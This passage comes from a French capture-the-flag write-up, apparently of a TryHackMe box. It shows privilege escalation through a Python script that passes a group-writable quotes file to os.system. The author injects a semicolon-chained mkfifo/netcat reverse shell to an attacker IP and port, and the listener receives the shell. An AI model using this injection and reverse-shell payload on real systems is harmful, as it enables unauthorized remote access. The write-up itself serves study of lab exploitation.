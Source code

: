 On remarque que l'on peut exécuter bees avec sudo.  

```bash
eston@national-treasure:~$ file /usr/bin/bees
/usr/bin/bees: Bourne-Again shell script, ASCII text executable
weston@national-treasure:~$ ls -al /usr/bin/bees 
-rwxr-xr-x 1 root root 56 May 25  2020 /usr/bin/bees
```

Il y a pas possibilité de modifier le fichier.   

On remarque que de temps en temps il y a un message qui s'exécute.  

```bash
weston@national-treasure:~$ id
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
```

On remarque l'on fait partie du groupe cage.  

```bash
weston@national-treasure:~$ find / -type f -group cage 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

On fait une recherche sur les fichiers qui appartient au groupe cage.  

```bash
weston@national-treasure:~$ ls -al /opt/.dads_scripts/spread_the_quotes.py 
-rwxr--r-- 1 cage cage 255 May 26  2020 /opt/.dads_scripts/spread_the_quotes.py
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

On voit que l'on a pas de droit écriture pour modifier le script.  
Il exécute le programme wall en ligne de commande avec les droits cage.  

```bash
weston@national-treasure:~$ ls -al /opt/.dads_scripts/.files/.quotes 
-rwxrw---- 1 cage cage 4204 May 25  2020 /opt/.dads_scripts/.files/.quotes

weston@national-treasure:~$ echo "pwned;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f" > /opt/.dads_scripts/.files/.quotes 

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.127.241] 53530
/bin/sh: 0: can't access tty; job control turned off
$ 
```
